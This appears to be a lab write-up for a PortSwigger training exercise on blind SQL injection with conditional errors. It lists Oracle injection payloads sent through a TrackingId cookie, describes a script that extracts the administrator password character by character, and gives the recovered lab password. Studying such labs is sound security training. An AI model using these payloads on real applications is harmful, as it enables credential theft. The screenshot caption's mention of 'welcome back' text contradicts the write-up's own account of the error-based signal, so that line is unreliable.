

# Blind SQL Injection with Conditional Errors

PortSwigger Web Security Academy lab:
["Blind SQL injection with conditional errors"](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

## Summary

The results of the SQL query are not returned, and the application does not respond
any differently based on whether the query returns any rows. But if the SQL query
causes a database error, the application returns a custom error page. Backend is
**Oracle**. Vulnerable parameter: `TrackingId` cookie.

There is a `users` table with `username` and `password` columns. Goal: enumerate the
administrator's password, then log in as administrator.

## Manual confirmation steps (via Burp Repeater)

```sql
-- Break the query with a single quote:
TrackingId='                                          -- 500 Internal Server Error

-- Escape it properly:
TrackingId=''                                          -- 200 OK

-- Confirm it's a SQL context:
TrackingId='||(select '')||'                           -- 500 error

-- Confirm Oracle backend (FROM dual required for standalone SELECT):
TrackingId='||(select '' from dual)||'                 -- 200 OK

-- Confirm users table exists:
TrackingId='||(select '' from users where rownum = 1)||'

-- Confirm administrator user exists, using divide-by-zero as an error trigger:
TrackingId='||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||'
-- TRUE -> TO_CHAR(1/0) -> 500 error (confirms the row exists)

-- Find password length (found to be 20):
TrackingId='||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>1)||'
```



Screenshot above: a live Burp Repeater request/response for this lab, showing the
`welcome back` text appearing in the response body when a true condition is injected
via the `TrackingId` cookie.

## Key technique

TRUE condition -> `TO_CHAR(1/0)` divide-by-zero -> HTTP 500
FALSE condition -> empty string -> HTTP 200

`blind_sqli_error_solver.py` uses this true/false signal to binary search the ASCII
value of each password character via `ASCII(SUBSTR(password, position, 1))`, and
detects password length via `LENGTH(password) >= position`.

## Result

**Administrator password:** `bmyjzrizywnbhsukqc0p`

## Usage

1. Update `HOST` and `SESSION_COOKIE` at the top of `blind_sqli_error_solver.py` with
   fresh values from your browser/Burp.
2. `pip install requests --break-system-packages`
3. `python3 blind_sqli_error_solver.py`
